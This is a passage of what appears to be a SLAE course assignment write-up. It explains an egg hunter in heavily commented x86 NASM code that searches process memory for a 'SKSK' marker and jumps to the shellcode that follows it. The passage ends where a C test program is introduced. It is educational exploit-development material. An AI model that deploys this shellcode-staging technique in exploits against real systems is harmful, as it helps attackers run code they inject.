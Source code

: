 ```nasm
  cmp al, 0xf2

  ;if the zero flag is set due to an invalid memory location, simply move to the next page
  je next_page

  ;otherwise, move the egg into eax
  ;eax is one of the native IA-32 instructions for doing string based comparisons with scas
  mov eax, 0x534B534B ;SKSK

  mov edi, edx  ;move the memory address currently in edx into edi as the edi register is used by scas

  ;compare the contents of memory stored in edi against the the dword value stored in eax
  ;this will essentially examine the contents of edi for the egg located in eax
  scasd

  ;if the contents of edi do not match the contents of eax, esentially meaning that the egg has not been found
  ;then increment to the next address
  jne increment_address

  ;if the contents of edi matches the contents of eax, the zero flag will be set, thus bypassing the previous instruction
  ;scasd will increment the value in edi by 4 bytes
  ;thus moving to the memory address of the next egg, 4 bytes before before the start of the shellcode

  ;compare the contents of memory stored in edi against the the dword value stored in eax
  ;this will essentially examine the contents of edi for the egg located in eax
  scasd

  ;if the contents of edi do not match the contents of eax, esentially meaning that the egg has not been found
  ;then increment to the next address
  jne increment_address

  ;if the contents of edi matches the contents of eax, the zero flag will be set, thus bypassing the previous instruction
  ;scasd will increment the value in edi by 4 bytes
  ;thus moving to the memory address at start of the shellcode

  jmp edi ;jump to the memory address where the second stage exists and pass control to the shellcode
```

The egg hunter can be found <a href="https://github.com/skahwah/slae/blob/master/assignment3/egghunter.nasm">here</a>.


### The Test Program
As mentioned above, I have created a "test" program written in C. This uses the egg hunter to traverse the virtual memory address space for the "test" process for a user supplied egg.
